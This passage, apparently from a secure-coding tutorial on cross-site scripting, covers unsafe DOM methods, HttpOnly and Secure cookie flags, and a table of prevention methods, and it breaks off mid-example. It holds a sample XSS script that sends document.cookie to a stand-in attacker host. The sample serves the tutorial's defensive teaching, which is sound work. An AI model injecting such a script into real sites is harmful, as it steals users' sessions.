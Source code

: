 - **Avoid `innerHTML`, `document.write()`, and `eval()`.**
- **Use `.textContent` instead of `.innerHTML`.**
- **Use CSP to block inline scripts.**

---

## **3️⃣ Real-World Example: XSS Stealing Cookies**

### **1️⃣ Attacker Injects This Script:**

```html
<script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

### **2️⃣ User Visits the Page, and This Happens:**

1. The **browser executes the script**.
2. **Sends the victim's session cookie** to `attacker.com`.
3. The attacker can **use the stolen cookie to log in as the victim**.

✅ **How to Prevent XSS Cookie Theft:**

```http
Set-Cookie: session=abc123; HttpOnly; Secure
```

- **`HttpOnly`** → Prevents JavaScript from accessing cookies.
- **`Secure`** → Ensures cookies are only sent over HTTPS.

---

## **4️⃣ How to Prevent XSS in Web Applications**

| **Prevention Method**                          | **How It Helps**                                 |
| ---------------------------------------------- | ------------------------------------------------ |
| **Escape user input**                          | Replace `<script>` with `&lt;script&gt;`         |
| **Use HTTP-only cookies**                      | Prevents JavaScript from reading session cookies |
| **Sanitize inputs**                            | Remove dangerous characters from input fields    |
| **Content Security Policy (CSP)**              | Blocks inline scripts & restricts sources        |
| **Use `.textContent` instead of `.innerHTML`** | Prevents direct script injection                 |
| **Validate input data**                        | Reject input containing `<script>` tags          |

---

## **5️⃣ Secure Coding Example (Fixing XSS)**

Instead of:
